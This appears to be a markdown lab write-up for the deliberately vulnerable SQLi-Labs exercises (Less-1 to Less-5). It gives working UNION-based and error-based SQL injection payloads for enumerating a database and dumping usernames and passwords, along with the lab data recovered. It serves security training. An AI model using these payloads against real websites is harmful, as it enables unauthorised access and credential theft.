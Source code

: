 __SQLI LABS__
==========
First we have to setup the lab:

* install apache2 webserver by ">sudo apt install apache2"
* install mysql by ">sudo apt-get install mysql-srver"
* install php7
* git clone the repository of the lab and start all the service required

#OBJECTIVE
==========
_dump the contents of the databse using sqli_
 
##LESS-1
========
* first we have to pass the "?id=" parameter and pass a numeric value
* fuzz the parameter to get sqli
* when we put "'" we get sql error thus we have a sql injection we can comment ou the rest of the query by "-- -"or "--+" or any comments in sql
* then we can dump the contents

 ##payloads to dump
---------------------
check no: of table included 	=```/?id=1'order by 1,2,3,4--+"```
to find the name of data base	= ```/id=-1' union select 1,database(),3--+```
to find table name 	    	= ```/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+```
to find the column name	    	=```/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+```
to find the data 	    	=``` /?id=-1' union select 1,group_concat(username),concat(password) from users```

contents of database
--------------------
name of database=security
tables		=emails,referers,uagents,users
columns		=CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
usernames	=Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password	=Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4  

##LESS-2
========
* when we fuzz the id parameter this time single qot(') i.e " ?id=1' "does not work
* when we put a "'" before and after the 1 it worked i.e "?id='1'"
* we can now comment (--+) rest and dump teh database using the same payloads (change 1' => '1') from lesson 1

contents of database
--------------------
name of database=security
tables          =emails,referers,uagents,users
columns in email=email_id,id
id		=1,2,3,4,5,6,7,8
email		=Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com 


##LESS-3
========
* in this lesson when we fuzz the id parameter we can find " ') "  is used to take our input so we can use " ') "  as payload
* the comment it and do the same payload form less-1

contents of database
--------------------
name of database=security
tables          =emails,referers,uagents,users
columns in uagents=id,ip_address,uagent,username

LESS-4
======
* in this challenge we have to use ' ") ' as payload
* we can use 'and' or 'or' to complete the query insted of commenting
contents of database
--------------------
name of database=security
tables		=emails,referers,uagents,users
columns in referer=id,ip_address,referer


LESS-5
======
* In this challenge we don't  get any response form the databse directy to the browser
* but we get the error when we break the query,so we can dump the database through the error
* we can use rand(),floor(),count()


payloads
---------
 this will get database ="/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+"
to get table names="/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+"
to get columns=/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

contents of database
--------------------
databse=security
tables=emails
columns=id
